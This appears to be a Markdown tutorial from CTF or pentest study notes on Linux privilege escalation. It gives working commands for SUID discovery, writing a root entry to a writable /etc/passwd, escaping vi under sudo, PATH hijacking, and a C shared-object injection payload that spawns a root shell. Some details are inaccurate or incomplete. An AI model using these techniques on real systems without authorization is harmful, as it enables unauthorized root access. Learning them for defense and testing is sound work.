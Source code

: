 # What is Priviledge Escalation?
 Privilege Escalation usually involves going from a lower permission to a higher permission. More technically, it's the exploitation of a vulnerability, design flaw or configuration oversight in an operating system or application to gain unauthorized access to resources that are usually restricted from the users.

#  Why is it important?
 Rarely when doing a [CTF](<https://en.wikipedia.org/wiki/Capture_the_flag_(cybersecurity)>) or [Penetration test](https://en.wikipedia.org/wiki/Penetration_test), would you be able to get root access to machines. Privilege escalation is crucial, because it lets you gain system administrator levels of access. This allow you to do many things, including:
 > Reset passwords  
 > Bypass access controls to compromise protected data
 > Edit software configurations
 > Enable persistence, so you can access the machine again later.
 > Change privilege of users


### Listed below are some of the most common priviledge escalation attacks:
#### 1. Abusing SUID/GUID Files
The first step in Linux privilege escalation exploitation is to check for files with the SUID/GUID bit set. This means that the file or files can be run with the permissions of the file(s) owner/group. In this case, as the super-user. We can leverage this to get a shell with these privileges! 

The permissions to look for when looking for SUID is:
`rws-rwx-rwx`
SUID Binaries can be found manually using the following command:
 `find / -type f -perm -u=s 2>/dev/null`
######  More on this later!

#### 2. Exploiting Writeable /etc/passwd
The /etc/passwd file stores essential information, which  is required during login. In other words, it stores user account information. The /etc/passwd is a **plain text file**.
The /etc/passwd file should have general read permission; write access to the /etc/passwd must only limit for the superuser/root account. When it doesn't, we have the vulnerability that can allow the **creation of a root user that we can access.**

Each entry in the /etc/passwd file follows this format:
`test:x:0:0:root:/root:/bin/bash`
Here, **x** denotes the password hash of user **test**.

##### Exploit:
Before you create a new user, you need to create a compliant password hash to use.
`openssl passwd -1 -salt [salt] [password]`
Eg: This is the hash created with the salt *new* and password *123*:
			`$1$new$p7ptkEKU1HnaHpRtzNizS1`
		Now, we'll add a new entry to /etc/passwd with the username *new*
			`new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash`

All that is left is to `sudo su`  into the *new* user we just created, and you should be greeted by a root prompt!

#### 3. Escaping Vi Editor
 Every time you have access to an account during a CTF scenario, you should use **"sudo -l"** to list what commands you're able to use as a super user on that account. The commands listed are called as binaries, and these can be exploited easily using cheat sheets from [GTFO Bins](https://gtfobins.github.io/) .

```
user8@polobox:~$ sudo -l
Matching Defaults entries for user8 on polobox:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user8 may run the following commands on polobox:
    (root) NOPASSWD: /usr/bin/vi
```

From the above snippet, it can be seen that **user8** can run **vi** command as sudo without the password. 
  So, all we need to do is open vi as root, by typing **"sudo vi"** into the terminal. Now, type `:!sh` to open a shell as root.

#### 4.  Exploiting Crontab
Cron [daemon](<https://en.wikipedia.org/wiki/Daemon_(computing)>) is a long-running process that executes commands at specific time. This can be used to schedule tasks, either as one time events, or recurring tasks. 
`cat /etc/crontab` command can be used to check what cron jobs are active.
Format for cronjobs:
`17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly`

##### Exploit:

![[Pasted image 20220908092843.png]]

From the above screenshot, it can be seen that `autoscript.sh` runs every 5 minutes with **root** permission.

#### 5. Exploiting PATH Variable
PATH is an environmental variable in Linux and Unix-like operating systems which specifies directories that hold executable programs. When the user runs any command in the terminal, it searches for executable files with the help of the PATH Variable in response to commands executed by a user.
##### Exploit:
Let's say we have an SUID binary. By running it, it calls the system shell to do a basic task like list the current runing processes with `ps`.
We can re-write the PATH variable to a location of our choosing! So when the SUID binary calls the system shell to run an executable, it runs one that we've written instead!

Let's take an instance where the SUID binary is executing command `ls`.
Now, change the directory to `/tmp` and create an imitation executable.
 `echo "/bin/bash" > ls`
 
Make the file executable with `chmod +x ls`
Now, change the path variable so that it points directly to where the executable is stored.
**export PATH=/tmp:$PATH**
This will cause you to open a bash promt everytime you run the command `ls`. So before you finish the exploit, use `/bin/ls` where the real **ls** executable is.

##### 6. SUID/GUID Shared Object Injection:
This exploit can be best explained with a real life example.

Consider an SUID executable in the system discovered using  `find / -type f -perm -u=s 2>/dev/null` command. 

From the machine, we can see that the executable displays a progress bar before exiting.

![[Pasted image 20220908231740.png]]

Run **[strace](https://linuxhint.com/use-linux-strace-command/#:~:text=The%20%E2%80%9Cstrace%E2%80%9D%20command%20is%20a,to%20troubleshoot%20the%20program%20issues.)** on the file and search the output for open/access calls and for "no such file" errors:
`strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`

![[Pasted image 20220908231945.png]]

Here, the executable tries to load a file named libcalc.so from `/home/user/.config`, but it cannot be found.
Create a *.config* directory. This is where we'll be uploading our own *fake* *libcalc.so* file which will run a shell.
`mkdir /home/user/.config`
Below is the code for the shell:
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}

```
Save the file as *libcalc.c* and compile the code into a shared object at the location the **suid-so** executable was looking for it: *( /home/user/tools/suid/libcalc.c)*

> gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c

Now, when we execute the *suid-so* file again, we get a shell instead of the progress bar!

![[Pasted image 20220908232917.png]]

